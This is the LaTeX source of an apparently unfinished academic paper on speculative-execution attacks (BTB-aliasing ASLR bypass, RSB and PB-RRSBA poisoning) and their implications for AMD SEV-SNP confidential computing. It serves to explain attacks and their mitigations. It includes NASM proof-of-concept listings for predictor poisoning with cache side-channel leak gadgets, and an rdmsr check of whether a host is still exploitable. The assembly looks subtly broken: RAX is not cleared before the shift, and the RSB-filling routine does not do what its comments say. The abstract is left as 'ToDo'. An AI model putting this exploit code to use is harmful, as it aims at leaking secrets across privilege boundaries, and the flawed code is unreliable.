\documentclass[11pt,a4paper]{article}
\usepackage[margin=3cm]{geometry}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{graphicx}
\lstset{
    basicstyle=\ttfamily\small,
    columns=fullflexible,
    keepspaces=true,
    frame=single,
    breaklines=true,
    showstringspaces=false,
    tabsize=4,
    language={[x86masm]Assembler},
    captionpos=b
}

% Tell listings what NASM looks like
\lstdefinelanguage{nasm}{
  keywords      = {section,global,call,ret,loop,align},
  morekeywords  = {mov,lea,push,shl,int3},   % =\lstkeywordstyle
  ndkeywords    = {rax,rcx,rdi,rip,al},      % registers, =\lstndkeywordstyle
  comment       = [l]{;},                    % ; starts a comment
  sensitive     = true
}

% Define a style for bash listings
\lstdefinestyle{bash-nonitalic}{
  language=bash,
  basicstyle=\ttfamily\small,
  commentstyle=\ttfamily\color{gray},  % <- not italic
  keywordstyle=\color{blue},
  showstringspaces=false,
  breaklines=true
}

% Global style: tweak as you wish
\lstset{
  language         = nasm,
  basicstyle       = \ttfamily\footnotesize,
  keywordstyle     = \color{blue!70!black}\bfseries,
  ndkeywordstyle   = \color{teal!70!black},
  commentstyle     = \color{gray}\itshape,
  stringstyle      = \color{orange!80!black},
  numbers          = left,
  numberstyle      = \tiny\color{gray},
  frame            = tb,          % top+bottom rule
  backgroundcolor  = \color{black!2},
  columns          = fullflexible,
  tabsize          = 4,
}

\title{Speculative-Execution Attacks and Implications for Confidential Computing}
\author{Kaya Ercihan}
\date{28.07.2025}

\begin{document}
\bibliographystyle{IEEEtranS}  % IEEE, sorted
\maketitle

\section*{Abstract}
ToDo

\section{Term Details}
ToDo

\subsection{ASLR Bypass via BTB Aliasing}
\subsubsection{BTB} 
A Branch Target Buffer (BTB) is a tiny cache inside the CPU that records the destinations of recently executed branch instructions so the processor can swiftly predict and pre-fetch the next instruction address.

\subsubsection{ASLR bypass}
The paper\cite{wikner25} describes how attackers can exploit BTB aliasing. By observing speculative behavior and return mispredictions, an attacker can recover the lower 32 bits of a victim’s return address, effectively defeating Address Space Layout Randomization (ASLR) and enabling further exploitation.\\


During each iteration, the victim is put to sleep inside a deep glibc I/O stack ("read(stdin)"), which pushes more than 16 return addresses and deliberately under-flows the architectural RSB. This guarantees that, on the next "ret", the CPU will fall back to the history-based RRSBA predictor. While the victim is blocked, the attacker flushes a shared cache set, mistrains the BTB/RRSBA with the address of a small gadget chain located in its own code (the training aliases on the lower address bits that the BTB uses), writes a single byte to the socket, and immediately yields the core. The byte wakes the victim, which now executes the vulnerable "ret" with the RSB empty, the poisoned RRSBA speculatively redirects control to the attacker’s gadget chain. In that transient window the gadget stores the true return address or some function of its low 32 bits, into the previously flushed cache line. When control comes back, the attacker simply reloads the cache set and times the access: the line that responds fastest reveals which aliasing BTB entry was chosen and therefore the lower half of the victim’s code address. 

Repeating this wait-train-mis-predict cycle leaks enough bits to collapse the ASLR entropy and map the victim’s layout.

\begin{figure}[htb]
  \centering
  
\includegraphics[width=\textwidth]{img/example.png}
  \caption{ASLR exploit procedure from \cite{wikner25}.}
  \label{fig:cache-hit}
\end{figure}

\section{Use Case: Confidential Computing}
Confidential computing encrypts memory (including instructions and data) using keys managed by the AMD Secure Processor (ASP). Secure Encrypted Virtualization (SEV) encrypts the entire VM memory, so instructions and data remain encrypted while stored in RAM. Only the CPU decrypts them on-the-fly during execution.

SEV-SNP adds integrity protection, ensuring that the hypervisor cannot tamper with or remap the VM's memory. This prevents attacks like memory snooping or VM breakout, even from a compromised hypervisor.

The ASP manages the encryption keys and secure context but does not perform decryption itself. Instead, decryption happens within the CPU, tightly integrated into the memory controller and instruction pipeline. Therefore, memory remains encrypted at rest and in transit, and is only decrypted in the CPU, for the correct VM.
\clearpage

\subsection{Detecting CC Support}
If a CPU supports confidential computing can easily be verified with the flags in lscpu (Flags: "sev", "sev-es", "sev-snp"):

\begin{lstlisting}[language=bash]
Architecture:        x86_64
CPU op-mode(s):      32-bit, 64-bit
Byte Order:          Little Endian
Address sizes:       48 bits physical, 48 bits virtual
CPU(s):              8
On-line CPU(s) list: 0-7
Thread(s) per core:  2
Core(s) per socket:  4
Socket(s):           1
NUMA node(s):        1
Vendor ID:           AuthenticAMD
CPU family:          25
Model:               1
Model name:          AMD EPYC 7B13
Stepping:            0
CPU MHz:             3049.994
BogoMIPS:            6099.98
Virtualization:      AMD-V
L1d cache:           32K
L1i cache:           32K
L2 cache:            512K
L3 cache:            16M

Flags:
fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov 
pat pse36 clflush mmx fxsr sse sse2 ht syscall nx mmxext fxsr_opt 
pdpe1gb rdtscp lm constant_tsc rep_good nopl nonstop_tsc cpuid 
extd_apicid tsc_known_freq pni pclmulqdq ssse3 fma cx16 pcid 
sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand 
hypervisor lahf_lm cmp_legacy cr8_legacy abm sse4a misalignsse 
3dnowprefetch osvw topoext invpcid_single ssbd ibrs ibpb stibp 
vmmcall fsgsbase tsc_adjust bmi1 avx2 smep bmi2 erms invpcid 
rdseed adx smap clflushopt clwb sha_ni xsaveopt xsaves xgetbv1 
clzero xsaveerptr arat npt nrip_save umip vaes sev sev-es sev-snp
\end{lstlisting}

\section{How to circumvent confidential computing?}
There are multiple ways to circumvent CC with this new kind of vulnerability. One is that the attacker crafts special payloads to train the CPU in a way to return in the victim's process to a wrong memory address. This would circumvent the CC measures because the memory, which stays encrypted with the instructions within cannot be read directly but the process which executes instructions, only decrypted in the CPU, will be running in an attacker controllable space and so the information output of the data within the instructions is than in an unencrypted attacker controllable space.

Further ways to exploit it:
\subsection*{Return Address Speculation (RSB manipulation)}
Manipulates the Return Stack Buffer to misguide return control flow.

\subsection*{Indirect Branch Target Injection (BTI)}
Trains indirect branches to speculatively jump into attacker-chosen targets.

\subsection*{Speculative Data Leakage to Attacker Memory}
Speculatively executes victim code and leaks data via cache to attacker space.

\subsection*{In-Guest Speculative Kernel-to-User Leaks}
Exploits speculative access to kernel memory from user context within a guest.

\subsection*{Post-IBPB Spectre Variant Bypass}
Shows that IBPB fails to fully block predictor-based speculative attacks.

\section{Proof of Concept: RSB Poisoning -> valid till Linux kernel < 4.15}
This example demonstrates how an attacker can exploit speculative execution by poisoning the Return Stack Buffer (RSB). The goal is to leak a secret value from a victim process without direct access to it.

The attacker first fills the RSB with fake return addresses that all point to a special code piece called a \texttt{"leak\_gadget"}. This gadget is designed to access value and create a visible effect in the CPU cache.

Once the RSB is poisoned, the attacker waits for a context switch to a victim process - for example, a privileged binary like sudo or passwd. When the victim executes a ret instruction, the CPU may speculatively use one of the attacker-supplied addresses from the RSB. This causes the CPU to speculatively jump to the attacker’s leak gadget.

Inside the leak gadget, the CPU in the speculation reads the first byte from a secret location (still stored in the RDI register during the context switch) and uses that byte to access a specific offset in a large memory buffer (the "probe buffer" -> e.g. 74[DEC] is the secret byte -> the gadget make 74 * 4096 = 302080 -> when the buffer now starts at 0x10000000 than the gadget calculates it like that: 0x10000000 + 302080 = 0x10000000 + 0x49C00 = 0x10049C00 => Each different value touches a different 4 KB memory chunk.

After the speculative execution is discarded, the attacker can scan the probe buffer and measure which part is now cached. This reveals the value of the secret byte without ever having had direct access to it.

This type of attack shows how speculative execution, even without any memory access rights, can leak sensitive data across privilege boundaries and why branch prediction and return address handling are critical parts of CPU security.\\

\vspace{-0.5em}
\begin{lstlisting}[caption={\texttt{attacker\_rsb\_poisoning.asm}}]
; attacker_rsb_poisoning.asm

global _start
section .text
; Code section starts here

_start:
    mov rcx, 32
    ; Set RCX to 32 -> number of times to poison the RSB

.rsbfiller:
    call poison
    ; Call the poison function, this pushes a return address to RSB

    loop .rsbfiller
    ; Loop 32 times poisoning the RSB -> Return stack Buffer -> with fake return addresses
    ; At this point the RSB is filled with addresses pointing to leak_gadget
    ; Next step would be to execute a privileged binary (e.g. via execve)
    ; so that on context switch, the victim process uses RSB for speculative return

    ;int3
    ; Debug breakpoint -> could be used to inspect state or wait for context switch

poison:
    lea rax, [rip + leak_gadget]
    ; Load address of leak_gadget into RAX

    push rax
    ; Push leak_gadget address onto the stack to poison RSB

    ret
    ; Return to continue RSB filling loop

leak_gadget:
    mov al, byte [rdi]
    ; Speculatively read 1 byte from memory pointed to by RDI (the secret value)
    ; So the filled RSB (which contains return addresses) will be used by the victim during speculation
    ; the CPU speculatively returns to an attacker-controlled memory address due to the poisoned RSB
    ; The victim speculatively executes the gadget, which reads 1 byte of the secret value, and the attacker
    ; is than able to "read" the value out.


    shl rax, 12
    ; Multiply the secret value by 4096 to calculate an offset into the probe buffer
    ; 4096 is the size of a memory page on most systems. -> By spacing each possible access 4096 bytes apart:
    ; Every possible secret value accesses a separate cache line or memory page. That makes it possible for the attacker
    ; to detect exactly which value was accessed, by checking which part of the buffer is now in the CPU cache.

    mov byte [probe + rax], 0
    ; Write to the probe buffer at the calculated offset
    ; This brings a specific cache line into the CPU cache

    ret

section .bss

align 4096
; Align the following buffer to a 4 KB boundary for proper cache behavior

probe:
    resb 4096 * 256
    ; Reserve 1 MB of memory (256 pages of 4 KB each)
    ; Used as the cache-based side channel buffer
\end{lstlisting}

If one wants to use Linux systems for this PoC, one can use this exploit only before the Linux kernel version 4.15, which was released in 2018. This is the case because from this version on, the Linux kernel clears the RSB on every context switch as a countermeasure against Spectre attacks.\cite{kernel}

This was pointed out by Kaveh Razavi, many thanks for that remark.

\section{Proof of Concept: RRSBA Poisoning -> valid till Linux kernel < 6.9 or missing flags}
Post‑Barrier Return Stack Buffer Alternate (PB‑RRSBA) attacks abuse the fallback “alternate” return predictor that takes over when the architectural RSB under‑flows. Intel now exposes two architectural bits in \texttt{IA32\_SPEC\_CTRL} to disable that predictor bit 5 \texttt{RRSBA\_DIS\_U} (user mode) and bit 6 \texttt{RRSBA\_DIS\_S} (kernel mode). If either bit is 1 the predictor is gated off for that privilege level, closing PB‑RRSBA.

Kernel support for programming those bits first appeared in Linux 6.9 (May 2024).  The x86 tree gained \texttt{spectre\_v2=rrsba\_disable}, and the scheduler now sets the bits automatically when the CPU advertises \texttt{RRSBA\_CTRL}. Earlier kernels leave both bits at their reset value 0, so the predictor stays enabled even after an IBPB.\\

\vspace{-0.5em}
\begin{lstlisting}[style=bash-nonitalic, caption={\texttt{attacker\_rrsba\_injection\_test.sh}}]
neo@morpheus:~$ sudo rdmsr -0 0x48 | awk '{printf "IA32_SPEC_CTRL = 0x%x\n",$1}'
IA32_SPEC_CTRL = 0x191
neo@morpheus:~$
neo@morpheus:~$ grep -o "RRSBA_CTRL" /proc/cpuinfo || cpuid -r | grep RRSBA_CTR
neo@morpheus:~$
neo@morpheus:~$ cat /sys/devices/system/cpu/vulnerabilities/itlb_multihit /sys/devices/system/cpu/vulnerabilities/spectre_v2
Not affected
Mitigation: Enhanced / Automatic IBRS; IBPB: conditional; PBRSB-eIBRS: SW sequence; BHI: BHI_DIS_S
neo@morpheus:~$

# Short explaination:
# rdmsr decoding
# IA32_SPEC_CTRL = 0x191
# => 0b0001 1001 0001
#         ^ ^||^    ^ bits 8,7,4,0 = 1 (PSFD, DDPD_U, IPRED_DIS_S, IBRS)
#            ^|       bits 6 (RRSBA_DIS_S)=0 <- kernel predictor still active
#             ^       bit 5 (RRSBA_DIS_U)=0  <- user space predictor still active
# Bit 0 (IBRS) -> enhanced / automatic Indirect Branch Restricted Speculation
# is enabled.
# Bit 4 (IPRED_DIS_S) -> the kernel has disabled the legacy IP based indirect
# predictor.
# Bit 7 (PSFD) -> Fast Store Forwarding predictor is disabled.
# Bit 8 (DDPD_U) -> the usermode Data Dependent Prefetcher is disabled.

# cpuid / RRSBA feature
#(no output) <- CPU/firmware do not advertise RRSBA_CTRL; bits cannot be set

# sysfs
# RRSBA not mentioned -> kernel < 6.9 (or old microcode) so RRSBA remains enabled
\end{lstlisting}

So as we can see the following PoC could be applied on this machine because:
\begin{itemize}
    \item Bits 5/6 in \texttt{IA32\_SPEC\_CTRL} are the authoritative signal.
    \item They are writable only on CPUs that enumerate \texttt{RRSBA\_CTRL} and only from Linux kernel $\geq$ 6.9.
    \item \texttt{/sys/devices/system/cpu/vulnerabilities/spectre\_v2} is the quickest human‑readable checkpoint once you have an up-to-date kernel.
\end{itemize}

Until those bits read 1, PB‑RRSBA can still steer speculative returns and bypass IBPB-based barriers.

In the listing \ref{lst:rrsba-injection} one can see the PoC:\\

\vspace{-0.5em}
\begin{lstlisting}[caption={\texttt{attacker\_rrsba\_injection.asm}}, label={lst:rrsba-injection}]
; Proof-of-concept exploiting fallback speculative return prediction (RRSBA)
; based on PB-RRSBA attack from ETH Zuerich 2025 research
; https://comsec.ethz.ch/wp-content/files/ibpb_sp25.pdf
; Demonstrates user to user speculative control-flow hijack
; Note: Does not rely on RSB, IBPB, or indirect-branch prediction (BTB)

global _start

section .text

_start:
    ; Begin training the alternate return predictor (RRSBA)
    ; The goal is to execute many call -> ret pairs that all return to a fake gadget
    ; This will create historical return address patterns used by RRSBA when RSB underflows
    mov rcx, 64 ; Number of training iterations

.train_loop:
    call train_gadget ; Perform a call that returns to our fake gadget
    loop .train_loop ; Loop until we've done it 64 times (decrements RCX and jumps if not zero)

    ; At this point, the fallback return predictor (RRSBA) is polluted with returns to our gadget

; Training done -> fall through here
; Spin with PAUSE so this thread stays oncore, keeping our
; RRSBA poison and probe buffer hot while the victim runs (so available in mem)
.spin:
    pause ; Hint to CPU: we're spinning, reduce power / latency
    jmp .spin ; Infinite loop to keep the attacker thread alive

train_gadget:
    ; Simulates a fake return target, where we want the victim to speculatively return
    lea rax, [rip + fake_ret_target] ; Load address of our gadget into RAX
    push rax ; Push gadget address onto the stack (simulates a return address)
    ret ; Return -> control goes back to .train_loop
    ; But also leaves a trace in CPU's speculative return predictors

fake_ret_target:
    ; This is the gadget that we hope the victim speculatively executes
    ; When RSB underflows, RRSBA may speculatively return here

    mov al, byte [rdi]
    ; Read a secret byte from memory address in RDI
    ; (RDI should point to attacker-chosen location in victim)

    shl rax, 12
    ; Multiply value by 4096 (page size) -> so shifting left by 12 positions
    ; This gives us a unique offset per possible byte value (0-255)
    ; Each offset is on a separate 4 KB page -> separate cache line

    mov byte [probe + rax], 0
    ; Access probe buffer at calculated offset
    ; Brings corresponding cache line into CPU cache
    ; -> probe + rax = secret \times 4096, so the address falls at the start of one of 256 different 4 KiB pages inside probe

    ret
    ; Exit gadget
    ; Speculative execution ends here; CPU eventually discards it

section .bss

align 4096 ; Align probe buffer to 4 KB for consistent page layout

probe:
    resb 4096 * 256
    ; Reserve 256 pages (=1 MB)
    ; Used for cache-based side-channel: each value -> different page
\end{lstlisting}

\section{Conclusion}
The PB-RRSBA and PB-Inception attacks, together with the BTB-aliasing ASLR bypass, demonstrate that today’s “best-practice” speculative-execution defenses, chiefly IBPB barriers and basic RSB refilling, are not enough to guarantee isolation across privilege levels or even across VMs protected by modern Confidential Computing schemes like AMD SEV-SNP. By hijacking residual return-prediction structures or exploiting aliasing in the branch-target buffer, an attacker can still steer mis-speculation into hand-crafted gadgets, extract fine-grained secrets via cache side channels, and undermine address-randomization hardening.

Unless the system advertises \texttt{RRSBA\_CTRL} and a Linux kernel~$\ge 6.9$ sets \\\texttt{IA32\_SPEC\_CTRL.RRSBA\_DIS\_{U,S}} (e.g.\ via \texttt{spectre\_v2=rrsba\_disable}), these attack paths remain open.

\bibliography{refs}
\end{document}
